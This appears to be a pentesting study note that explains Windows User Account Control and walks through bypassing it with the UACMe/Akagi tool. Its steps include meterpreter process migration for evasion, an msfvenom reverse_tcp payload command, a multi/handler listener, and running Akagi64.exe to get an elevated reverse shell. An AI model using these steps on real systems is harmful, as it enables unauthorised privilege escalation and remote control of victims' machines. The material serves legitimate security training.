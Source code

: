 
### What is UAC ?

UAC (User Access Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorised changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system. 

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation. 

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### What is `UACMe` ?

- UACMe is an open source, robust privilege escalation tool developed by @hfireOx. It can be used to bypass Windows UAC by leveraging various techniques. 

	+ GitHub: https://github.com/hfiref0x/UACME

- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.

- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool. 

- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

### How to use `UACMe` ?

- __Prerequisites__
	+ The actual executable to perform the UAC bypass is called `Akagi`, it doesn't comes pre-compiled in the repository as it'll be flagged malicious, therefore we need to compile it ourselves.
	+ In order to elevate privileges by bypassing UAC, we will need access to a user that is a member of the local administrators group. Use command - `net local administrators` to check the list of local administrators.


__STEPS__
1) Gain initial access to a target system
2) If the `meterpreter` session is running in a 32 bit process, we can migrate to a 64 bit process such as `explorer.exe` with PID of 2448. Command is `migrate 2448`.
	+ The process ID of explorer can be found using the command `ps -S explorer.exe`.
	+ Process migration is used for evasion, persistence, stealth and architecture matching.
	+ The original process that the attacker used to gain access to the system is different from the process they inject their code into.
3) We can check the privileges of the current user using `getprivs`
4) Generate a `msfvenom` `meterpreter` payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```
5) Setup the multi handler to listen for connections. `use multi/handler`
6) Go back to the `meterpreter` session and navigate to the Temp directory of the target.
7) Temp directory is in `C:\Users\<user>\AppData\Local\Temp\`
8) Upload the `payload.exe` and `Akagi64.exe` files into the Temp directory. 
9) `shell` into the system and execute `Akagi64.exe`.
```
.\Akagi64.exe <key_number> <path_to_payload>
```
10) After executing this command, `Akagi` will execute the payload with administrative privileges. And we should receive an elevated `meterpreter` session in our listener.